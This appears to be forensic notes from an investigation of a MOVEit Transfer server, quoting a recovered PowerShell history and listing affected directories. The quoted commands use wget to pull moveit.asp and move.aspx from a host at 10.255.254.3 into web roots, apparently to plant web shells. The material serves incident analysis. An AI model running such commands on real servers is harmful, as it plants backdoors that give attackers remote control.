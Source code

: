 ## Console history
```powershell
└─$ cat ./uploads/auto/C%3A/Users/moveitsvc.WIN-LR8T2EF8VHM.002/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt
cd C:\inetpub\wwwroot
wget http://10.255.254.3:9001/moveit.asp
dir
wget http://10.255.254.3:9001/moveit.asp -OutFile moveit.asp
dir
cd C:\MOVEitTransfer\wwwroot
wget http://10.255.254.3:9001/move.aspx -OutFile move.aspx
```

^b594ce

## Artifact directory
- C:\inetpub\wwwroot
- C:\MOVEitTransfer\wwwroot
